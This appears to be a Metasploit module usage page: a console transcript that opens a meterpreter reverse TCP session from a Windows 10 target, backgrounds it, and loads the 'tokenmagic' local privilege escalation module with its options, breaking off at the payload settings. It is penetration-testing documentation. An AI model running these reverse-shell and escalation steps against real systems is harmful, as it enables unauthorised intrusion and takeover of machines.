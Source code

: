 ### Tested on Windows 10 x64 1803 (Build 17134) via service exploitation
```
msf > use multi/handler
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf exploit(multi/handler) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf exploit(multi/handler) > set lport 4444
lport => 4444
msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Sending stage (200262 bytes) to 172.16.199.135
[*] Meterpreter session 2 opened (172.16.199.1:4444 -> 172.16.199.135:49874) at 2021-05-14 12:18:40 -0400

meterpreter > bg
[*] Backgrounding session 2...
msf exploit(multi/handler) > use windows/local/tokenmagic
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf exploit(windows/local/tokenmagic) > options

Module options (exploit/windows/local/tokenmagic):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   METHOD            SERVICE          yes       SERVICE or DLL, please select which attack method you would like to use (SERVICE by default).
Note that the System Orchestrator service which loads the overwritten DLL when using the DLL method can take up to 10
minutes to trigger (Accepted: SERVICE, DLL)
   SERVICE_FILENAME  dbfkhe           no        Filename for Service Payload (Random by default).
   SERVICE_NAME      BNPzhEQL         no        Service Name to use (Random by default).
   SESSION                            yes       The session to run this module on.
   WRITABLE_DIR                       no        Directory to write file to (%TEMP% by default).


Payload options (windows/x64/meterpreter/reverse_tcp):

```